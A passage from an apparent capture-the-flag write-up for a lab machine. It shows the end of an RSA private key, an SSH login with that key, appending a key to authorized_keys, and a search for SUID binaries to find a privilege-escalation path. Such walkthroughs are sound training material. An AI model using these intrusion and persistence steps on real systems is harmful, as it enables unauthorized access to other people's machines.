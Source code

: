 ```
I9Esc9FP8QLqR3jJOdijaN59oByGFiEE1QGnODeHRt2czK388XtH/FTqsjhH360R
+8ylF6696X9DMnUQ4NEvDRRLR7JKae8fcu5d/SRsenB+1ck2djs=
-----END RSA PRIVATE KEY-----
```

So we can login through SSH now:

```
$ chmod 600 id_rsa
$ ssh theseus@10.10.10.185 -i id_rsa
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

29 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Jul  2 08:19:49 2020 from 10.10.15.71
theseus@ubuntu:~$
```

Note: is you are denied it's because someone overwrote `authorized_keys` with
it's personal key. So just append theseus public key:

```
theseus@ubuntu:~$ cat .ssh/id_rsa.pub >> .ssh/authorized_keys
```

PS: it seems the private key I used was not part of the box but generated by
another player, anyway you'll have to add a key to `.ssh/authorized_keys`.

## System enumeration

Let's find binaries with SUID:

```
theseus@ubuntu:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/vmware-user-suid-wrapper
...
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```